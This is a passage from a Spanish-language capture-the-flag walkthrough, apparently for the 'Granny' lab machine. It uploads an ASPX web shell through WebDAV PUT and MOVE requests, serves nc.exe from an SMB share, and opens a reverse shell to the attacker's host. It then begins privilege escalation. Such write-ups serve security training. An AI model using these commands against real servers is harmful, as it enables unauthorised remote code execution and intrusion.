 Copiamos el archivo en nuestro directorio
```bash
cp /usr/share/webshells/aspx/cmdasp.aspx webshell.aspx
```

Con los métodos HTTP `PUT` y `MOVE` para subir un archivo y cambiar la extensión de este, para acto seguido, ejecutar la web shell obteniendo ejecución remota de comandos.

```bash
curl -s -X PUT http://10.10.10.15/webshell.txt -d @webshell.aspx
curl -s -X MOVE -H "Destination:http://10.10.10.15/webshell.aspx" http://10.10.10.15/webshell.txt
```

Copiamos en nuestro directorio, el binario para windows de `nc`
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe nc.exe
```

Creamos un listener
```bash
rlwrap nc -lnvp 4564
```

Cargamos en el navegador el recurso `http://10.10.10.15/webshell.txt`

<p style="text-align: center;">
<img src="/assets/images/granny/03-page.png">
</p>

Creamos un servicio de recursos compartidos `SMB`
```bash
sudo impacket-smbserver smbFolder $(pwd)
```

En la webshell ejecutamos por medio de un recurso compartido una reverse shell con la ayuda de `nc`
```bash
\\10.10.14.8\smbFolder\nc.exe -e cmd 10.10.14.8 4564
```

Reverse shell exitosa
```bash
whoami
nt authority\network service
```

## ESCALADA DE PRIVILEGIOS SMBSERVER + CHURRASCO + MSFVENOM

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar la enumeración de permisos y tareas con la finalidad de lograr un escalamiento de privilegios.

Enumeración de grupos habilitados
```bash
whoami /priv
```
```bash
#OUTPUT
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```
